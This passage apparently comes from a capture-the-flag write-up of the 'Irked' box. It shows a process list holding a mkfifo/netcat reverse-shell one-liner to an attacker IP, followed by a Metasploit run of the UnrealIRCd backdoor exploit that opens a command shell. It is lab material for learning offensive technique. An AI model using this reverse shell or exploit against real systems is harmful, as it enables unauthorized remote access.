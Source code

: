 


There I see the call to `system("who")` and then
`system("/tmp/listeners")`.

## Beyond Root

### Metasploit & Process List Payloads

While I was on the box, I saw myself in the process list:



    ircd      3670  0.0  0.0   2276   596 ?        S    08:33   0:00 sh -c AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f



I got curious as to what the payload from metasploit might look like. I
fired up metasploit and got ready to run the exploit:



    msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > options

    Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.10.117     yes       The target address range or CIDR identifier
       RPORT   6697             yes       The target port (TCP)


    Exploit target:

       Id  Name
       --  ----
       0   Automatic Target



Now I run it, and get a shell:



    msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

    [*] Started reverse TCP double handler on 10.10.14.14:4444 
    [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
        :irked.htb NOTICE AUTH :*** Looking up your hostname...
    [*] 10.10.10.117:6697 - Sending backdoor command...
    [*] Accepted the first client connection...
    [*] Accepted the second client connection...
    [*] Command: echo DklVGHbcoUDn6OCZ;
    [*] Writing to socket A
    [*] Writing to socket B
    [*] Reading from sockets...
    [*] Reading from socket A
    [*] A: "DklVGHbcoUDn6OCZ\r\n"
    [*] Matching...
    [*] B is input...
    [*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.117:49955) at 2019-04-04 09:30:17 -0400
